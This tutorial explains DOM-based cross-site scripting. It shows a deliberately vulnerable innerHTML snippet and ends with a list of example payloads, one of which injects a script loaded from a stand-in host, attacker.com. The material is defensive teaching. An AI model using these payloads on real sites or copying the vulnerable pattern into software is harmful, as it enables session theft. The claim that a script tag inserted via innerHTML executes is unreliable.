 In a **DOM-based XSS attack**, the injected script does not come from the server’s response (like reflected or stored XSS). Instead, the malicious code is embedded in the URL or another part of the client-side input, and JavaScript running on the page dynamically processes this data and performs unsafe DOM manipulation. This type of attack can allow an attacker to execute arbitrary JavaScript within the victim's browser, leading to the compromise of sensitive data.

---

## How Does DOM-based XSS Work?

1. **User Input**: The attacker crafts a malicious URL or modifies an existing URL to include the malicious JavaScript payload (e.g., through query parameters, hashes, or other client-side input sources).
2. **Client-Side Execution**: When the user clicks the malicious link, the client-side JavaScript (running in the victim's browser) processes the input and directly manipulates the DOM without proper sanitization or escaping of the malicious code.
3. **Script Execution**: The injected payload is executed in the victim’s browser, often leading to data theft (like cookies), session hijacking, or other malicious behavior.

#### Example 
Consider a website that has a JavaScript function that uses user input directly from the URL query parameters to display content dynamically.

For example, the site may take the `name` parameter from the URL and display it on the page:

```javascript
// Example of vulnerable client-side code
let name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;
```

###### Malicious URL
An attacker could craft a URL like this:
```jaavascript
http://example.com/?name=<script>alert('DOM-based XSS')</script>
```

When the victim clicks the link, the JavaScript code directly places the content from the `name` parameter into the HTML without any sanitization. As a result, the malicious script is executed, and an alert is shown with the message "DOM-based XSS."



---

## Common JavaScript Functions Vulnerable to DOM-based XSS

- `innerHTML`
- `document.write()`
- `eval()`
- `setTimeout()` or `setInterval()`
- `location.hash`
- `document.referrer`

---

## Example Payloads for DOM-based XSS

Here are some common payloads that could be used in DOM-based XSS attacks:

1. **Injection via URL parameters**:
```html
http://example.com/?param=<script>alert('XSS')</script>
```

2. **DOM Manipulation via `innerHTML`**:
```html
<img src="invalid" onerror="alert('XSS')">
```

3. **Cross-Domain Script Inclusion**:
```html
<script>
  var script = document.createElement('script');
  script.src = 'http://attacker.com/malicious.js';
  document.body.appendChild(script);
</script>
```